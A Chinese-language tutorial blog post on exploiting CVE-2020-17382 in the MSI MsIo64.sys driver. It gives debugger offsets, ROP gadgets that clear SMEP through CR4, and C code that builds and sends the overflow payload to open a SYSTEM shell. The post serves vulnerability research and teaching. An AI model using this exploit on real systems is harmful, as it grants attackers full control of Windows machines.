

# 【第 13 話】CVE-2020-17382 研究－Buffer Overflow（下）


## 文章大綱
這篇承接[【第 12 話】CVE-2020-17382 研究－Buffer Overflow（上）](/asset/第%2012%20話)的內容，上篇只介紹漏洞成因與觸發 Stack Overflow 造成 BSOD，這篇要利用 CVE-2020-17382 的 Stack Overflow 漏洞搭配 ROP 繞過 SMEP 保護，然後執行 Shellcode 達成提權。


## 動態分析
這篇的目的不只是讓系統崩潰，而是要提權，為此我們需要進一步的分析。

首先要知道我們的輸入會被放到哪個位址，目前只從 IDA 上知道會被放在一個區域變數 `Src` 中，所以我們要在 WinDbg 下斷點在下圖紅框的地方，Virtual Address 是 `0x1623`。


在載入 [MsIo64.sys](https://github.com/zeze-zeze/2023iThome/blob/master/CVE-2020-17382/bin/MsIo64.sys) 後下斷點，輸入 `lm` 找到 MsIo64.sys 的起始位址為 `fffff80d6ac40000`。

```
kd> lm
start             end                 module name
...
fffff80d`6ac40000 fffff80d`6ac46000   MsIo64     (deferred)  
...
```

將起始位址 `fffff80d6ac40000` 加上 `0x1623` 就是我們要下斷點的位址，因此輸入 `bp fffff80d6ac40000+1623`。接著按 `g` 繼續執行。在執行 Crash.exe 後應該會踩到斷點，停在下面這行。
```
fffff80d`6ac41623 e8b8010000       call    FFFFF80D6AC417E0
```

我們的目的是要知道區域變數 `Src`，也就是 `memmove(Src, SystemBuffer, InputBufferLength);` 的目標位址。在 Windows x64 中的 Calling Convention 是 rcx、rdx、r8、r9 ...，所以這時的 rcx 就是存 `Src`。在 WinDbg 左下方可以看 Registers => User 找到 rcx `0xffff980cbedc7170`。


接著一直輸入 `p` 繼續執行直到 `ret` 為止。
```
fffff80d`6ac416b9 c3               ret
```

`ret` 指令做的事實際上就是 `pop rip`，也就是說下一個要執行的位址會被放在 Stack 上。在 WinDbg 左下方可以看 Call Stack 的第一個值 `0xffff980cbedc71b8`。另外注意到整個 Call Stack 都被蓋滿了 `a (0x61)`。


將 Return Address 所在的 `0xffff980cbedc71b8` 減掉我們的輸入會被放到的 `0xffff980cbedc7170` 等於 `72 (0x48)`，這就是我們在改到 `RIP` 之前要蓋的長度。


## 繞過 SMEP
雖然很希望能夠直接把 RIP 控成我們給的 Shellcode 的位址，但無奈在 Windows 10 1709 有 SMEP，因此要先繞過這個機制。

在[【第 11 話】Capcom.sys 研究－Arbitrary Shellcode Execution](/asset/第%2011%20話) 有關於 SMEP 的介紹，簡單來說 SMEP 就是禁止 Kernel 執行應用層程式的保護機制，這篇直接說明繞過 SMEP 的部分。

### 竄改 CR4
既然 SMEP 針對的是應用層的 Shellcode，那只要改成 Kernel 的程式就沒問題了。雖然我們沒有 Kernel 執行權，但可以用 ROP（Return-Oriented Programming）繞過，由於 ROP 的 Gadget 都是 Kernel 的程式因此不會被 SMEP 擋掉。

cr4 原本的值可以在 WinDbg 中輸入 `r cr4` 印出，[r](https://learn.microsoft.com/zh-tw/windows-hardware/drivers/debugger/r--registers-) 代表 Registers，後面接要讀或寫的暫存器，原本的 cr4 的值是 `0x1506f8`，拿掉 SMEP 的第 20 bit 就是 `0x506f8`。

```
kd> r cr4
cr4=00000000001506f8
```


### 找 Gadget
用工具 [0vercl0k/rp](https://github.com/0vercl0k/rp) 在 ntoskrnl.exe 中找下面三個 Gadget。前兩個很明顯是為了改 cr4，第三個 `wbinvd` 則是為了清除快取記憶體，否則系統會卡住。

- `pop rcx ; ret`
- `mov cr4, rcx ; ret`
- `wbinvd ; ret`

ntoskrnl.exe 雖然副檔名為 exe，但實際上是跑在 Kernel 的，用工具 DriverView.exe 查看可以找到它。




## 攻擊腳本（EoP）
攻擊步驟如下
1. 找 ntoskrnl.exe 的起始位址
2. 用 ROP 竄改 cr4
3. 送 Payload 到驅動程式觸發漏洞

程式主要參考 [MSI Ambient Link Driver 1.0.0.8 Privilege Escalation](https://packetstormsecurity.com/files/159315/MSI-Ambient-Link-Driver-1.0.0.8-Privilege-Escalation.html)，修改部分程式並加了一些註解。完整的專案也放在我的 GitHub [zeze-zeze/2023iThome](https://github.com/zeze-zeze/2023iThome/tree/master/CVE-2020-17382/CVE-2020-17382)。

### 1. 找 ntoskrnl.exe 的起始位址
ROP Gadget 是在 ntoskrnl.exe 中找的，那在程式中可以搭配 [EnumDeviceDrivers](https://learn.microsoft.com/en-us/windows/win32/api/psapi/nf-psapi-enumdevicedrivers) 列舉所有驅動程式的起始位址，和 [GetDeviceDriverBaseNameA](https://learn.microsoft.com/en-us/windows/win32/api/psapi/nf-psapi-getdevicedriverbasenamea) 比對驅動程式名稱來找到 ntoskrnl.exe 的起始位址。

```c
// 1. 找 ntoskrnl.exe 的起始位址
LPVOID GetBaseAddr(const char* drvname)
{
    LPVOID drivers[1024];
    DWORD cbNeeded;
    int nDrivers, i = 0;

    if (EnumDeviceDrivers(drivers, sizeof(drivers), &cbNeeded) && cbNeeded < sizeof(drivers))
    {
        char szDrivers[1024];
        nDrivers = cbNeeded / sizeof(drivers[0]);
        for (i = 0; i < nDrivers; i++)
        {
            if (GetDeviceDriverBaseNameA(drivers[i], (LPSTR)szDrivers, sizeof(szDrivers) / sizeof(szDrivers[0])))
            {
                if (strcmp(szDrivers, drvname) == 0)
                {
                    return drivers[i];
                }
            }
        }
    }
    return 0;
}
```


### 2. 用 ROP 竄改 cr4
用找到的 Gadget 堆 ROP Payload，繞過 SMEP 後再執行 Shellcode，而 Shellcode 的部分跟[【第 10 話】Windows Kernel Shellcode](/asset/第%2010%20話) 做的幾乎相同。

```c
// 2. 用 ROP 竄改 cr4
INT64 pop_rcx_offset = kernel_base + 0x15fc70;    // gadget 1 - pop rcx ; ret
INT64 mov_cr4_offset = kernel_base + 0x76a02;     // gadget 2 - mov cr4, rcx ; ret
INT64 wbindv_offset = kernel_base + 0x1175c0;     // gadget 3 - wbinvd ; ret
INT64 rcx_value = 0x506f8;                        // 要竄改 cr4 關閉 SMEP 的值
INT64 ret = pop_rcx_offset + 1;                   // gadget 1 - ret

BYTE input_buff[136] = {0};
memset(input_buff, '\x41', 72);                               // Stack Overflow 要改到 RIP 前要蓋 72 Bytes
memcpy(input_buff + 72, (PINT64)&pop_rcx_offset, 8);          // pop rcx
memcpy(input_buff + 80, (PINT64)&rcx_value, 8);               // 0x506f8
memcpy(input_buff + 88, (PINT64)&mov_cr4_offset, 8);          // mov cr4, rcx ; 竄改 cr4 關閉 SMEP 的值
memcpy(input_buff + 96, (PINT64)&wbindv_offset, 8);           // wbinvd; ret
memcpy(input_buff + 104, (PINT64)&allocated_shellcode, 8);    // 提權用的 Shellcode 位址
memcpy(input_buff + 112, (PINT64)&mov_cr4_offset, 8);         // mov cr4, rcx ; 把原本 cr4 的值寫回去
memcpy(input_buff + 120, (PINT64)&ret, 8);                    // ret
memcpy(input_buff + 128, (PINT64)&ret, 8);                    // ret
```

### 3. 送 Payload 到驅動程式觸發漏洞
最後就是將在 Stack Overflow 後利用 ROP 繞過 SMEP 並執行 Shellcode 的 Payload 送到驅動程式達成提權，並開啟一個有 System 權限 cmd。

```c
// 3. 送 Payload 到驅動程式觸發漏洞
DWORD lpBytesReturned = 0x0;
BOOL triggerIOCTL = DeviceIoControl(hFile, 0x80102040, input_buff, sizeof(input_buff), NULL, 0, &lpBytesReturned, NULL);
if (!triggerIOCTL)
{
    printf("[!] DeviceIoControl failed: %d\n", GetLastError());
    exit(1);
}

// 提權後跳出一個有 system 權限的 cmd
system("start cmd.exe");
```


## 測試
1. 在 VM 中載入 [MsIo64.sys](https://github.com/zeze-zeze/2023iThome/blob/master/CVE-2020-17382/bin/MsIo64.sys)
2. 用一般使用者權限執行 [CVE-2020-17382.exe](https://github.com/zeze-zeze/2023iThome/blob/master/CVE-2020-17382/bin/CVE-2020-17382.exe)，會看到一個 cmd 跳出來
3. 輸入 `whoami` 會看到已經成功提權 `system`。


## 參考資料
- [CVE-2020-17382](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-17382)
- [Windows 10 x64上令牌窃取有效载荷问题，并绕过SMEP（下）](https://www.4hou.com/shop/posts/4YAV)
- [SMEP: What is it, and how to beat it on Windows](https://j00ru.vexillium.org/2011/06/smep-what-is-it-and-how-to-beat-it-on-windows/)
- [HEVD Window Kernel Exploit 01 - StackOverflow](https://www.anquanke.com/post/id/218682)
- [MSI Ambient Link Driver 1.0.0.8 Privilege Escalation](https://packetstormsecurity.com/files/159315/MSI-Ambient-Link-Driver-1.0.0.8-Privilege-Escalation.html)
- [x64 呼叫慣例](https://learn.microsoft.com/zh-tw/cpp/build/x64-calling-convention?view=msvc-170)